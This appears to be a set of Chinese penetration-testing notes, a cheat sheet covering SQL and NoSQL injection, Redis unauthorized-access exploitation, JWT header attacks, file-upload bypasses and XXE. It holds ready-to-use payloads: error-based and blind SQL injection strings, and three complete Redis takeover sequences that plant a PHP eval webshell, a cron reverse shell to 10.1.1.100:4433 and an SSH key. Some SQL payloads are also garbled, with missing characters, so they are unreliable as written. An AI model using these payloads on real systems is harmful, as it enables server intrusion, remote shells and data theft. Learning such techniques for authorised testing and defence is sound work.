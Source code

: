 **一、XSS**

（1）字符串插入

（2）缓冲区溢出 

变形Fuckjs

**二、NoSQL注入 MongoDB/couch**

{“$gt":""}或者[$gt]

**三、反序列化攻击**

序列化是将字符串转化为字节流，便于传输和存储

**四、模板注入**

自动化工具tplmap

**五、红队工具sliver**

默认监听端口31337

**六、SQL注入**

**盲注** 

1' and sleep(10) --+  1' and if(1=1,1,0) --+

**报错注入**

select * from test where id=1 and (select 1 from (select count(),concat(user(),floor(rand(0)2))x from information_schema.tables group by x)a); #floor示例 采用 floor 报错并不会存在长度问 select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e))); #extractvalue示例 select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1)); #updatexml示例 采用updatexml只能显示32长度的内容 select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b)); #geometrycollection示例 select * from test where id=1 and multipoint((select * from(select * from(select user())a)b)); #multipoint示例 select * from test where id=1 and linestring((select * from(select * from(select user())a)b)); #linestring示例 select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));#multilinestring示例 select * from test where id=1 and exp(~(select * from(select user())a)); #exp示例

**MSSQL注入**

账户权限有两层：服务器角色和用户映射（数据库角色） public最低，sysadmin最高

**七、Redis未授权访问利用**

执行flushall删除所有数据

通过EVAL执行lua代码

通过数据备份功能往磁盘写入后门文件

如果Redis以root身份运行，可以给root账户写入SSH公钥文件，直接免密码登录服务器

Redis主从复制RCE在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在redis中实现一个新的Redis命令，通过写c语言编译并加载恶意so文件，达到代码执行的目的

redis-cli -h 10.1.1.200 -p 6379 #连接服务器 #####写入一句话木马 方法（1）拿shell config set dir /var/www/html config set dirfilename shell.php set x "<?php @eval($_POST['test']);?>"    save #####反弹shell 方法（2）拿shell nc -lnvp 4433 config set dir /var/spool/cron    //设置备份路径,这里就是设置定时任务的文件夹 config set dbfilename root    //设置备份文件名 set xx "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/10.1.1.100/4433 0>&1\n\n"   //设置内容，在计划任务前后加入换行以确保写入的计划任务可以被正常解析，每分钟执行一次/bin/......... save         //保存  #####写入ssh文件 方法（3）拿shell ssh-keygen -t rsa     (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/foo.txt  cat /tmp/foo.txt       /查看txt文件 cat /tmp/foo.txt | redis-cli -h 10.1.1.200 -p 6379 -x set sshkey     //连接靶机传入文件 redis-cli -h 10.1.1.200 -p 6379     //连接redis config get dir   //得到redis备份文件路径 config set dir /root/.ssh/              //设置备份文件路径 config set dbfilename "authorized_keys"         //命名 save                //保存 ssh root@10.1.1.200 -i/root/.ssh/id_rsa   //使用SSH免密登录靶机

**八、针对JWT的渗透测试**

- 原理：

客户端发送用户登录信息给服务端；服务端用私钥进行加密，返回JWT给客户端存储到本地；客户端发送请求信息携带JWT，服务端用公钥解密。

JWT的格式为以.分割，header，payload，signature，均用base64格式

- 漏洞：

1.签名未校验

2.签名算法None

3.密钥爆破

4.头部注入

- **A**、JWK:理想情况下服务器应该只使用有限的公钥白名单来验证JWT签名，然而错误配置的服务器有时会使用jwk参数中嵌入的键值，您可以通过使用自己的RSA私钥对修改后的JWT进行签名，然后在jwk头中嵌入匹配的公钥来利用这种行为
- **B**、JKU：有些服务器可以使用jku(jwk Set URL)头参数来引用包含密钥的JWK集，而不是直接使用JWK头参数来嵌入公钥，当验证签名时，服务器从这个URL获取相关的密钥，JWK集合有时会通过一个标准端点公开，比如:/.well-known/jwks.json，更安全的网站只会从受信任的域获取密钥，但有时您可以利用URL解析差异来绕过这种过滤。

以这一泄露为例，该 JWT 使用 RSASHA256 进行加密，而 RSA 的加密需要 n 与 e。我给大家先画幅流程图理一下攻击思路。

![image-20250103124956306](C:\Users\test\AppData\Roaming\Typora\typora-user-images\image-20250103124956306.png)

![image-20250103125000090](C:\Users\test\AppData\Roaming\Typora\typora-user-images\image-20250103125000090.png)

- **C**、Kid：通过 kid 注入 JWT，与目录遍历攻击相结合，JWS 规范没有针对 kid 进行严格设置，比如必须是 uuid 的格式或者是其他的，它只是开发人员选择的任意字符串。

那么我们可以通过将 kid 指向数据库中的特定条目，或者是指向文件名，作为验证密钥。与目录遍历相结合

当 JWT 使用的是对称加密算法的时候，极有可能存在目录遍历的漏洞，我们能够强制服务器使用其文件系统中的任意文件作为验证密钥

- **D**、其他的 JWT 标头攻击，**cty 标头**：意义为 Content Type，有时用于为 JWT 负载中的内容声明媒体类型，一般情况下是省略的。

我们可以尝试修改 cty 标头为text/xml或者是application/x-java-serialized-object，这也可能导致 XXE 注入与反序列化漏洞。CVE-2017-2800[TALOS-2017-0293 || Cisco Talos Intelligence Group - Comprehensive Threat Intelligence](https://talosintelligence.com/vulnerability_reports/TALOS-2017-0293)

 [CVE-2018-2633](https://mbechler.github.io/2018/01/20/Java-CVE-2018-2633)  [Java: Possible RCEs in X.509 certificate validation [CVE-2018-2633\][CVE-2017-10116] – – Random ramblings, exploits and projects. (mbechler.github.io)](https://mbechler.github.io/2018/01/20/Java-CVE-2018-2633/)

- **E**、x5c：有时用于传递用于对 JWT 进行数字签名的密钥的 X.509 公钥证书或证书链。此标头参数可用于注入自签名证书，类似于上面讨论的 jwk 标头注入攻击。由于 X.509 格式及其扩展的复杂性，解析这些证书也会引入漏洞。
- **F**、JWT算法混淆
- ![image-20250103125012585](C:\Users\test\AppData\Roaming\Typora\typora-user-images\image-20250103125012585.png)
- 

1.服务器有时通过映射到/jwks.json或/.well-known/jwks.json的端点将它们的公钥公开为JSON Web Key(JWK)对象，比如大家熟知的/jwks.json，这些可能被存储在一个称为密钥的jwk数组中，这就是众所周知的JWK集合，2.即使密钥没有公开，您也可以从一对现有的jwt中提取它

假设开发使用的是RS256这非对称加密算法生成的jwt。

由于信息泄露等原因攻击者可以拿到这个公钥，因为上边说过公钥通常是共享的。

攻击者使用HS256算法伪造一个jwt，用这个公钥作为签名的密钥。

程序会使用verify()这个方法来验证jwt有没有被篡改。但是这个库设计的有问题（问题：他是通过你jwt头中alg来判断是使用那种算法来进行签名的。所以我们可以篡改他的算法），这块就会使用RS256生成的公钥作为HS256的秘钥来验证攻击者伪造的jwt。这个公钥攻击者可控，所以伪造的jwt就会通过验证。

**G**、敏感信息泄露

**H**、密钥硬编码类

**九、文件上传**

IIS中，后缀名asp禁止上传，可以上传asa/cer/cdx，如果网站里允许.net执行，可以上传ashx代替aspx

Apache中，开启 AddType application/x-httpd-php .php .phtml .php3

Windows系统绕过.php.（因为忽略了.）

利用NTFS文件流 shell.php::$DATA

利用Windows环境的叠加特征

文件上传目录参数可控 %00截断 ：gpc关闭 php版本小于5.3.4

**十、XXE漏洞**

- 本地文件读取：有回显XXE，DTD中外部普通实体中讲过了，1.file:/// 2.若为php程序，则可使用php://filter伪协议 3.当所读取文件中包含了<或者&，使用CDATA，利用外部参数实体

有些xml解析支持列目录，攻击者通过列目录，读文件，获取账号密码后进一步攻击，如读取tomcat-user.xml得到账号密码后登录tomcat的manager部署webshell。

无回显XXE的利用思路，通过外带数据，把数据发送到远程服务器上，通过外部DTD的方式可以将内部参数实体的内容与外部DTD声明的实体的内容拼接起来，利用payload来从目标主机读取到文件内容后，将文件内容作为url的一部分来请求我们本地监听的端口